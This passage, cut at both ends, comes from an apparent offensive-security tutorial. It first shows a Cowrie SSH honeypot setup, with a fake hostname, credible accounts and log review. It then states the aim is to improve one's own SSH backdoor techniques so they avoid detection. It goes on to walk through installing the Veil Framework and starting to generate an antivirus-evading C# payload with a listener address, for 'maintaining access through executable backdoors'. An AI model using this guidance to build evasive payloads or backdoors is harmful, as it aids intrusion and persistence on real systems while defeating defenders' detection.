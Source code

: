 ```bash
# Edit cowrie.cfg
hostname = prod-db-server
kernel_version = 5.4.0-42-generic
kernel_build_string = #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020
hardware_platform = x86_64
operating_system = GNU/Linux
```

2. Add credible user accounts:

```bash
# Edit userdb.txt
admin:x:admin:1:0:0
jenkins:x:jenkins2022:1:0:0
root:x:Sup3rS3cur3P@ss:1:0:0
```

3. Start the honeypot:

```bash
bin/cowrie start
```

4. Analyze SSH attack patterns:

```bash
# View live connection attempts
tail -f var/log/cowrie/cowrie.log

# Review session recordings
cd var/lib/cowrie/downloads
# Or playback a session
bin/playlog var/lib/cowrie/tty/[session].log
```

By understanding how Cowrie detects and logs SSH interaction, you can improve your own SSH backdoor techniques to avoid similar detection mechanisms.

## Veil Framework: Payload Generation

The Veil Framework is an advanced tool for generating undetectable payloads that can bypass antivirus solutions. It's particularly useful for maintaining access through executable backdoors.

### Installation

If not already installed on your Kali or Parrot OS:

```bash
apt update
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

### Basic Usage

```bash
veil

# Select Evasion for AV-evading payloads
use 1

# List available payload types
list

# Example: C# payload
use 15

# Set options
set LHOST 192.168.1.100
```